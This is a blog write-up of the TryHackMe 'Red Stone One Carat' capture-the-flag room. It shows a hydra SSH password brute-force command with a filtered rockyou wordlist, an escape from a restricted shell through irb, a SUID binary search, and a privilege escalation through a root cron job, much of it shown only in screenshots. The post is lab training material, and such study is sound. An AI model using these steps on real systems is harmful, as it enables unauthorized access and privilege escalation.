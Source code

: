 ```yaml
---
layout: post
title:  "TryHackMe - Red Stone One Carat - Writeup!"
date:   2021-05-14 12:06:59
categories: thm
---
```



# [Red Stone One Carat](https://tryhackme.com/room/redstoneonecarat) - Starting the box can take some time

<hr>




---
<br>

### Set IP 

New starting point set `IP` to be environment variable
{% highlight bash %}
$ echo 'export ip=10.10.112.111' >> .bashrc
$ exit
{% endhighlight %}
Now open new Terminl window and `$ip` is set. Ready to go


### SSH 
Not a typical kind of CTF. Credentials provided right a way `noraj `, but password contians `bu` in it.
{% highlight bash %}
$ grep bu /usr/share/wordlists/rockyou.txt > bu_pass.txt
{% endhighlight %}
So the `hydra` has less work.
{% highlight bash %}
$ hydra -l noraj -P bu_pass.txt ssh://$ip
{% endhighlight %}

![RedStone](/assets/thm/redstonecarat/hydra_noraj.png)

### User is rzsh-ed
But is was way too restricted at least for me.

![RedStone](/assets/thm/redstonecarat/restricted_shell.png)

After some research found the way to get `irb` on the machine

![RedStone](/assets/thm/redstonecarat/irb.png)

### User Flag
It's was easy one, but before created function to read file.

{% highlight ruby %}
def r_f file
 ### Read file the easy way
 f = File.open("#{file}",'r')
 f.read.each_line do |line|
  print "#{line}"
 end
 return nil
end
{% endhighlight %}
It's better way to print files, in this case, then on the picture.

![RedStone](/assets/thm/redstonecarat/user_flag.png)

### Priv Esc 
{% highlight bash %}
irb(main):029:0> system 'find / -user root -perm -u=s 2>/dev/null'
/bin/mount
/bin/su
/bin/ping
/bin/fusermount
/bin/umount
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/tmp/bash
=> false
irb(main):030:0>
{% endhighlight %}

Let's see if there are any files for `crontabs`.
![RedStone](/assets/thm/redstonecarat/dummy_sh.png)

Now let's see what is in `dummy.sh`

![RedStone](/assets/thm/redstonecarat/dummy_sh_content.png)

### Finding Roots

The hard stuff is starting here, connecting to the `port 31547` has not gave me much.

So I’ve tried coping `dash` to privilege escalation... nothing... user `noraj` was coping the file adding sticky bit wouldn’t help.

![RedStone](/assets/thm/redstonecarat/trying_dash.png)

And then after couple hours later... connecting to the port... after much time reading about delimiters of `ruby`

![RedStone](/assets/thm/redstonecarat/copy_bash.png)

At least copy was successful...
![RedStone](/assets/thm/redstonecarat/root_flag.png)


<br>
<hr>

### References
[Restricted Shell escape](https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/)

[General Delimited Input](https://www.linuxtopia.org/online_books/programming_books/ruby_tutorial/The_Ruby_Language_General_Delimited_Input.html)

